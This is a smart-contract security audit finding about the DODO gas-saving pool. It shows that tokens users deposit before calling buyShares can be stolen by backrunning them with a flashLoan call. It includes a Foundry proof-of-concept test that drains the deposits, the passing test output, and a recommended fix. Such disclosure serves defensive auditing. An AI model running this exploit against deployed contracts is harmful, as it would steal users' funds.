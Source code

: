 Overt Onyx Newt

high

# User's deposited funds can be stolen by backrunning token transfers with a flashloan

## Summary

An attacker can backrun users deposits with a `flashLoan` call to steal their deposited funds.

## Vulnerability Detail

Before calling `buyShares`, as stated [here](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L26), a user must deposits base and quote token simply using an IERC20 transfer function.

```solidity
/// @dev User first transfer baseToken and quoteToken to GSP, then call buyShares
```

Consequently an attacker can backrun deposits with a `flashLoan` call to steal his deposited funds.

**Proof of concept**

In `GPSTrader.t.sol`:

```solidity
function test_flashloanBackRunningTransfer() public {
    address attacker = vm.addr(3);

    // transfer some tokens to USER
    vm.startPrank(DAI_WHALE);
    dai.transfer(USER, BASE_RESERVE + BASE_INPUT);
    vm.stopPrank();
    vm.startPrank(USDC_WHALE);
    usdc.transfer(USER, QUOTE_RESERVE + QUOTE_INPUT);
    vm.stopPrank();

    // User transfers before buys shares
    vm.startPrank(USER);
    dai.transfer(address(gsp), BASE_RESERVE);
    usdc.transfer(address(gsp), QUOTE_RESERVE);
    vm.stopPrank();

    // attacker backrunning transfers
    vm.startPrank(attacker);
    gsp.flashLoan(BASE_RESERVE, QUOTE_RESERVE, attacker, "");
    vm.stopPrank();

    // User tries buys shares
    vm.startPrank(USER);
    vm.expectRevert();
    gsp.buyShares(USER);
    vm.stopPrank();

    assert(dai.balanceOf(address(gsp)) == 0);
    assert(usdc.balanceOf(address(gsp)) == 0);
    assert(dai.balanceOf(attacker) == BASE_RESERVE);
    assert(usdc.balanceOf(attacker) == QUOTE_RESERVE);
}
```

Results:

```bash
forge test -vvv --fork-url $ETH_RPC_URL --match-test test_flashloanBackRunningTransfer
```

```bash
Running 1 test for test/GPSTrader.t.sol:TestGSPTrader
[PASS] test_flashloanBackRunningTransfer() (gas: 211566)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.12s

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

A user can lost his deposited funds.

## Code Snippet

https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L25C1-L82

## Tool used

Manual Review

## Recommendation

Do transfers inside `buyShares` after requesting for token approvals.

In `GSPVault.sol` insert:

```solidity
function _transferBaseIn(address from, address to, uint256 amount) internal {
    if (amount > 0) {
        _BASE_TOKEN_.safeTransferFrom(from, to, amount);
    }
}

function _transferQuoteIn(address from, address to, uint256 amount) internal {
    if (amount > 0) {
        _QUOTE_TOKEN_.safeTransferFrom(from, to, amount);
    }
}
```

In `GSPFunding.sol` modify:

```solidity
function buyShares(
    address to,
    uint256 baseAmount,
    uint256 quoteAmount
)
    external
    nonReentrant
    returns (uint256 shares, uint256 baseInput, uint256 quoteInput)
{
    _transferBaseIn(to, address(this), baseAmount);
    _transferQuoteIn(to, address(this), quoteAmount);
```